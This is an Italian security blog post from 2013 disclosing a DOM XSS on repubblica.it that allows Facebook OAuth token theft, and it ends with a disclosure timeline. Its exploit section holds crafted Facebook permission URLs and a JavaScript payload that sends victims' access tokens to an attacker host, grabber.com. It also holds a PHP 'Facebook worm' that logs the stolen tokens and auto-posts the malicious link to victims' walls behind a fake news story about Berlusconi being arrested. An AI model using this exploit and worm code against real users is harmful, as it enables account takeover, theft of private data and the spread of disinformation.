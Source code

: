 ```yaml
---
date: 2013-07-17 17:03:00
layout: post
slug: 2013-07-17-facebook-oauth-token-hijacking-via-repubblica-it-xss
title: 'Facebook OAuth token hijacking via repubblica.it XSS'
pygmentize: True
categories:
- Networking
- News
- Pentesting
- Security
- Software
tags:
- pentesting
- security
- oauth
- xss
- vulnerability
- repubblica.it
- openredirect
---
```


Facebook utilizza il protocollo OAuth per far comunicare le applicazioni e gli utenti della piattaforma allo scopo di autorizzare le applicazioni ad accedere alle informazioni e funzionalità dei profili degli utenti. Una debolezza del protocollo OAuth, in compresenza di vulnerabilità [open redirect](https://www.owasp.org/index.php/Open_redirect) o [XSS](https://www.owasp.org/index.php/XSS) nel dominio web di una applicazione Facebook, permette ad un attaccante esterno di impersonare tale applicazione e di guadagnare i permessi ad essa concessi dagli utenti, come leggere i dati personali, accedere a messaggi privati e pubblicare nelle bacheche.

Queste e altre debolezze di OAuth sono state evidenziate nell'ultimo anno dagli ottimi ricercatori [Nir Goldshlager](http://www.breaksec.com) e [Egor Homakov](http://homakov.blogspot.co.il) che hanno pubblicato diversi articoli sulle [vulnerabilità](http://homakov.blogspot.co.il/2013/03/redirecturi-is-achilles-heel-of-oauth.html) [intrinseche](http://homakov.blogspot.co.il/2013/02/hacking-facebook-with-oauth2-and-chrome.html) al [protocollo](http://www.breaksec.com/?p=6039) OAuth.

Vediamo un caso pratico dove un XSS nel dominio web di una applicazione [molto usata](http://www.appdata.com/apps/facebook/182234715127717-la-repubblica) come Repubblica.it permette di creare un *facebook worm* capace di replicarsi e collezionare informazioni degli utenti. Le elucubrazioni contenute in questo articolo sono state fatte con l'aiuto dell'amico e ricercatore di sicurezza [Francesco Manzoni](http://francescomanzoni.com/).

# Facebook OAuth
Come già detto, la piattaforma Facebook utilizza OAuth per autorizzare le applicazioni ad accedere ai profili degli utenti. Ogni applicazione può accedere solo ai permessi che l'utente ha accettato alla sottoscrizione, come la lettura delle informazioni del profilo, lettura dei messaggi privati, accesso alle informazioni sugli amici, o la possibilità di pubblicare post sulla bacheca.

L'autorizzazione data alla applicazione esterna avviene con un passaggio di un token univoco temporaneo che l'utente chiede a Facebook, poi inviato al sito dell'applicazione con un semplice redirect. Una volta che l'applicazione riceve il token temporaneo, può accedere alle risorse dell'utente che gli sono permesse via Facebook API. Facciamo l'esempio con l'applicazione facebook di Repubblica.it.

![OAuth]( {{ site.url }}/assets/img/oauth1.png)

# VULNERABILITY

Il token viene passato tra i tre attori con delle semplici richieste GET, a cui viene aggiunto come [fragment](http://en.wikipedia.org/wiki/Fragment_identifier), dopo il carattere `#`. Anche l'indirizzo CALLBACK\_URL su cui viene redirezionato il browser utente per consegnare il token a Repubblica.it viene passato come parametro nel parametro `next` della GET. 

Queste specifiche di OAuth permettono ad un attaccante di forgiare un link particolare che se visitato dall'utente forza il browser a richiedere a Facebook il token autenticativo, per poi inviarlo all'attaccante esterno via una CALLBACK\_URL vulnerabile di XSS o di open redirect. Da questo momento l'attaccante possiede il token con cui per un tempo limitato può sottrarre informazioni private dell'utente, postare nella sua bacheca utente e fare ciò che i permessi dell'applicazione consentono.

![Attacco a OAuth]( {{ site.url }}/assets/img/oauth2.png)


# EXPLOIT

## TOKEN HIJACKING

Per sfruttare la vulnerabilità, è necessaria un XSS o open redirect presente nel dominio che Facebook associa alla applicazione, in questo caso Repubblica.it. Prevedibilmente l'XSS, per di più DOM, è presente nel dominio repubblica.it questo indirizzo:

```html
http://www.repubblica.it/static/includes/common/interstitial.html?href=javascript:alert("Yeah");
```

Procurata l'app\_id della applicazione di repubblica, `182234715127717`, abbozziamo la richiesta di token verso facebook

```html
https://www.facebook.com/dialog/permissions.request?app_id=182234715127717&display=page&next=&response_type=token&fbconnect=1#sthash.q5jXmpqn.dpuf
```

Inseriamo la url vulnerabile nel XSS nel parametro che indica la CALLBACK\_URL, ovvero `next`. In questo modo il browser dell'utente che fa la richiesta del token, viene poi ridirezionato all'indirizzo specificato in CALLBACK\_URL, col quale estraiamo il token eseguendo via XSS il comando javascript `alert(window.location.hash);`:

```html
https://www.facebook.com/dialog/permissions.request?app_id=182234715127717&display=page&next=http://www.repubblica.it/static/includes/common/interstitial.html?href=javascript:alert(window.location.hash);&response_type=token&fbconnect=1#sthash.q5jXmpqn.dpuf`
```

![alert token]( {{ site.url }}/assets/img/oauth3.png )

Siamo riusciti nell'intento di estrarre il token utilizzando il codice javascript iniettato nel XSS. Invece di mostrarlo a schermo, inviamolo allo script PHP dell'attacante installato su una terza macchina, l'host *grabber.com* nell'ultimo grafico. Componiamo il comando javascript con qualche piccolo hack per facilitare l'hijacking verso *grabber.com*: 

* Per inviare il token a un url esterno senza problemi di same origin policy, carichiamo nel documento una finta immagine da `grabber.com/token.php` 
* Rimuoviamo il carattere `#` in modo che il token venga inviato come parametro della GET access_token
* Concateniamo la stringa finale con un `join` evitando di utilizzare i `+` che andrebbero persi nell'URL encoding delle diverse richieste

Il javascript da iniettare nella pagina vulnerabile diventa quindi 

```{javascript}
javascript:document.write(["<img ","src='","http://grabber.com/token.php?",window.location.hash.replace(String.fromCharCode(35),''),"'/>"].join(''));
```


## FACEBOOK WORM

Il grabber esterno, a seconda dei permessi dati alla applicazione dagli utenti, può collezionare dati privati, i messaggi e ripostarsi nelle bacheche degli utenti che visitano il link malevolo. **Perchè il worm possa ripostarsi, è necessario che in precedenza l'utente abbia approvato il permesso di scrivere in bacheca richiesto da repubblica.it**. In questa dimostrazione limitiamoci a repostare il link allo scopo di creare un *facebook worm*. Bastano una finta notizia un pò *catchy* e poche linee di codice PHP per creare un post che si riposta automaticamente nella bacheca di chiunque lo clicchi.

```{php}
<?
if (!array_key_exists('access_token', $_GET)) die();
$access_token=$_GET['access_token'];

file_put_contents('fbout.txt', $access_token .' ' , FILE_APPEND);

$ch = curl_init();

curl_setopt($ch, CURLOPT_URL, "https://graph.facebook.com/me/feed");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, false);
curl_setopt($ch, CURLOPT_POSTFIELDS, array(
    'name' => 'Sentenze manipolate, manette per Silvio Berlusconi',
    'caption' => 'repubblica.it',
    'description' => 'La Guardia di Finanza di Milano ha eseguito nel pomeriggio un ordine di arresto nei confronti del cavaliere Silvio Berlusconi, reo di avere corrotto ',
    'link' => 'https://www.facebook.com/dialog/permissions.request?app_id=182234715127717&display=page&next=http://www.repubblica.it/static/includes/common/interstitial.html?href=javascript:document.write(["<img ","src=\'","http://grabber.com/token.php?",window.location.hash.replace(String.fromCharCode(35),""),"\'/>"].join(\'\'));&response_type=token&fbconnect=1#sthash.q5jXmpqn.dpuf',
    'picture' => 'http://www.repubblica.it/images/2013/03/13/094653287-01e6777c-9cdb-46f1-b7c5-694920034ad8.jpg',
    'access_token' => $access_token
));

echo curl_exec($ch);
curl_close($ch);

?>
```


![Repost]( {{ site.url }}/assets/img/oauth4.png)

Il risultato è di indubbio effetto e in grado di ripostarsi in poco tempo in maniera esponenziale. Un token grabber più elaborato potrebbe facilmente raccogliere tutte le informazioni possibili da ogni profilo bucato, e in caso di applicazioni autorizzate ad accedere alla mailbox utente, addirittura fare un dump di tutti i messaggi privati degli utenti che visitano il link.

Lato Facebook il baco è difficile da estirpare, le specifiche di OAuth permettono il passaggio del token via GET, ed chi si occupa di sicurezza delle web application sa che la gran parte dei siti contengono vulnerabilità XSS o open redirect. Lato utente rimane sempre la buona abitudine di non cliccare link sospetti, e di provvedere immediatamente alla cancellazione nel caso si noti una inaspettata viralità del post nelle bacheche dei propri contatti.


#### Disclosure:
*4 Luglio 2013: Segnalata vulnerabilità alla mail helpdesk del sito di Repubblica.it, nessuna risposta.*
*11 Luglio 2013: Segnalata vulnerabilità a 3 mail di amministratori, nessuna risposta.*
*17 Luglio 2013: Pubblicazione della vulnerabilità.*
*19 luglio 2013: Dopo un gentile scambio di mail con i tecnici di Repubblica.it, verifico che il DOM XSS è stato fixato.*
